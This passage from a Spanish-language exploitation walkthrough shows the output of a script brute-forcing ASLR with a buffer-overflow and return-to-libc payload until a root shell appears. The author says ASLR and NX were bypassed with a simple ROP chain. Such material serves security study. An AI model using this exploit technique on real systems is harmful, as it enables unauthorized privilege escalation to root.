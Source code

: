 $ ./aslr.sh  
Intento: 0  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 1  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
.  
.  
.  
Intento: 195  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 196  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 197  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Illegal instruction  
Intento: 198  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
\# whoami  
root  
#  
Tras cerrar la shell el programa rompe, pues no nos hemos preocupado de colocar la dirección de `exit()` como supuesto `ret` para `system()`  
`# exit  
Segmentation fault  
Intento: 199  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
[...]`  
Y continúa el script haciendo fuerza bruta. De hecho es gracioso que tras el comando `exit`, se obtenga root de nuevo en menos de un segundo.  
`Intento: 746  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
Segmentation fault  
Intento: 747  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAP�a�������s�  
#`  
Hemos logrado una elevación de privilegios bypasseando ASLR y NX mediante un ROP así de sencillo.
